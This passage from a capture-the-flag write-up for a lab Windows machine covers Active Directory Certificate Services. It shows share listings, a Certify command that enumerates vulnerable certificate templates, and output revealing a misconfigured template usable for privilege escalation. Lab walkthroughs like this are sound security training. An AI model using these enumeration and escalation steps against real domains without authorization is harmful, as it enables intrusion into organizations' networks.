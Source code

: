 ```
Privilege Name                Description                    State   
============================= ============================== ========
SeMachineAccountPrivilege     Add workstations to domain     Disabled
SeChangeNotifyPrivilege       Bypass traverse checking       Enabled 
SeIncreaseWorkingSetPrivilege Increase a process working set Disabled
```
# Getting root on earth machine
## ADCS Enumeration
So we know there are AD Certificate Services running on the machine. We've also seen `CertEnroll` Share so let's check it.
```
PS C:\Users\diegocruz\Desktop> cd \\earth\\CertEnroll
PS Microsoft.PowerShell.Core\FileSystem::\\earth\CertEnroll> dir


    Directory: \\earth\CertEnroll


Mode                LastWriteTime         Length Name                                                                  
----                -------------         ------ ----                                                                  
-a----        5/24/2021   7:58 PM            897 earth.windcorp.htb_windcorp-CA.crt                                    
-a----        2/25/2021  10:24 PM            885 earth.windcorp.thm_windcorp-EARTH-CA.crt                              
-a----        5/25/2021  10:03 PM            322 nsrev_windcorp-CA.asp                                                 
-a----        4/28/2021  12:11 AM            328 nsrev_windcorp-EARTH-CA.asp                                           
-a----         3/9/2022   4:42 PM            722 windcorp-CA+.crl                                                      
-a----         3/9/2022   4:42 PM            910 windcorp-CA.crl                                                       
-a----        5/24/2021   7:28 PM            734 windcorp-EARTH-CA+.crl                                                
-a----        5/19/2021   7:54 PM            928 windcorp-EARTH-CA.crl 
```
At this point, recommended reading: https://posts.specterops.io/certified-pre-owned-d95910965cd2
I knew this post already beforehand and i also recommend following "SpectreOps" Posts/Tweets.

Our tool of choice will be `Certify` from here: https://github.com/GhostPack/Certify
Checking the post or the github page of the tool (Readme.md) we do see that there are plenty of commands and/or misconfigurations related to ADCS.

After enumerating a bit and running
```
Certify.exe find /vulnerable /currentuser
```
I've noticed that the group which we are member of, does have `All Extended Rights` privileges on Enrollment Permissions and Write permissions on the `Web` Template Object.
```
CA Name                               : earth.windcorp.htb\windcorp-CA
    Template Name                         : Web
    Schema Version                        : 2
    Validity Period                       : 10 years
    Renewal Period                        : 6 weeks
    msPKI-Certificate-Name-Flag          : ENROLLEE_SUPPLIES_SUBJECT
    mspki-enrollment-flag                 : PUBLISH_TO_DS
    Authorized Signatures Required        : 0
    pkiextendedkeyusage                   : Server Authentication
    mspki-certificate-application-policy  : Server Authentication
```
